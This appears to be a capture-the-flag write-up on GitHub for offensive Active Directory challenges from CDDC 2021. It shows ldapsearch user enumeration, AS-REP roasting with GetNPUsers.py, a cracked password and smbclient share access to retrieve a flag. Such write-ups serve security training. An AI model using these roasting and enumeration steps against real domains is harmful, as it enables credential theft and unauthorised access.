


# Behind The Mask

This was a series of offensive Active Directory challenges hosted during CDDC 2021.

## Challenge #1: Light  
### Points: 200
### Challenge Text:  
It’s time to expose the GDC! We have successfully obtained the IP address of their AD server.   
First, try to list the different users that are configured on the server.  

### Solution  
The list of users from the DC can be obtained with the following command:  
```ldapsearch -LLL -x -H ldap://18.136.74.102 -b ‘DC=gdc,DC=local' > enumAD.txt```  
The flag is in the description for one of the users. I just opened the enumAD.txt file and
ctrl+F'ed for the flag format.  
  


## Challenge #1: Get a Ticket
### Points: 300
### Challenge Text:  
We must find a way to access the shared folders configured on this server. I don’t see anyway, but maybe you can figure it out…

### Solution  
Since these challenges are locked in order, I assume that each challenge is dependant on the solution to the
previous one. Since the previous challenge was to get a list of users, I originally assumed the solution was to
find a service account and kerberoast it.  
  
However, no accounts vulnerable to kerberoasting were found. We eventually solved the challenge by ASREP-Roast-ing user accounts
found in the previous challenge for kerberos tickets. The following command was used:

python GetNPUsers.py gdc.local/ -usersfile usernames.txt -format hashcat -outputfile tickets.txt
  

  
Kerberos tickets for the user liam.a were obtained. The tickets were roasted and the password for liam.a was obtained.  


  
Using the password p@ssw0rd and the user liam.a, I listed the network shares.

```
smbclient -L //18.136.74.102/ -U liam.a
Enter WORKGROUP\liam.a's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin                                                                                                                                                                      
        Backup          Disk                                                                                                                                                                                        
        C$              Disk      Default share                                                                                                                                                                     
        Forensics       Disk                                                                                                                                                                                        
        IPC$            IPC       Remote IPC                                                                                                                                                                        
        Mission2 Flag   Disk                                                                                                                                                                                        
        NETLOGON        Disk      Logon server share                                                                                                                                                                
        SYSVOL          Disk      Logon server share  


smbclient //18.136.74.102/Mission2\ Flag -U liam.a  
...
cat flag.txt  
CDDC21{4S_REP_R0A$T}```